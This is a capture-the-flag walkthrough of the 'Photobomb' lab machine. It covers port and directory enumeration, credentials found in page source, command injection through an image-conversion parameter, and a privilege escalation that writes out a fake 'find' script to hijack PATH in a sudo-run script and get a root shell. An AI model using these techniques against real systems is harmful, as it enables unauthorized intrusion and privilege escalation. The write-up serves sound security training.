


# Photobomb
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.182 -T4                                                                                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 10:16 BST
Warning: 10.10.11.182 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.182 (10.10.11.182)
Host is up (0.16s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.11.182 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 10:44 BST
Nmap scan report for 10.10.11.182 (10.10.11.182)
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.66 seconds

```
- Web server


- `gobuster`
```
└─$ gobuster dir -u http://photobomb.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error          
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://photobomb.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/30 10:49:19 Starting gobuster in directory enumeration mode
===============================================================
/printer              (Status: 401) [Size: 188]
/printer.txt          (Status: 401) [Size: 188]
/printer.php          (Status: 401) [Size: 188]
/printers             (Status: 401) [Size: 188]
/printers.txt         (Status: 401) [Size: 188]
/printers.php         (Status: 401) [Size: 188]
/printerfriendly      (Status: 401) [Size: 188]
/printerfriendly.php  (Status: 401) [Size: 188]
/printerfriendly.txt  (Status: 401) [Size: 188]
/printer_friendly     (Status: 401) [Size: 188]
/printer_friendly.txt (Status: 401) [Size: 188]
/printer_friendly.php (Status: 401) [Size: 188]

```
- `vhosts`
  - Nothing
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://photobomb.htb/' -H 'Host: FUZZ.photobomb.htb'  -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://photobomb.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.photobomb.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

```
## Foothold/User
- `http://photobomb.htb/printer`
  - No creds


- `http://photobomb.htb/index.php`


- If we check sources for `http://photobomb.htb/` we have cresd for `printer`
  - `pH0t0:b0Mb!`


- They work


- When we select image and specific options we have a `POST` request



- `filetype` resulted in interesting response, while other parameters responded in error


- If we `ping` attack box we receive response


- Now, let's get revshell



## Root
- We have `sudo` rights
```
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 

```
```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
- We have
  - `SETENV` uses current environment
  - `find` is used without full path
- So we can create a `find` script and place it `/tmp`
  - And run the script with `PATH` variable due to `SETENV`
    - `...environment variables set on the command line are not subject to the restrictions imposed by env_check, env_delete, or env_keep...`
```
wizard@photobomb:/tmp$ echo -e '#!/bin/bash\n\nbash' > find
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ cat find
#!/bin/bash

bash
```
```
wizard@photobomb:/tmp$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
root@photobomb:/home/wizard/photobomb# whoami
root
```
### Intended path
- `/opt/.bashrc`
  - `enable -n [ # ]` is [disabling](https://linux.die.net/man/1/bash) `[` command
  - `[` is the same as `test` 
```
# System-wide .bashrc file for interactive bash(1) shells.

# To enable the settings / commands in this file for login shells as well,
# this file has to be sourced in /etc/profile.

# Jameson: ensure that snaps don't interfere, 'cos they are dumb
PATH=${PATH/:\/snap\/bin/}

# Jameson: caused problems with testing whether to rotate the log file
enable -n [ # ]
...
```
- wizard@photobomb:/tmp$ which [
/usr/bin/[
```
- The path is similar to what we did with `find`

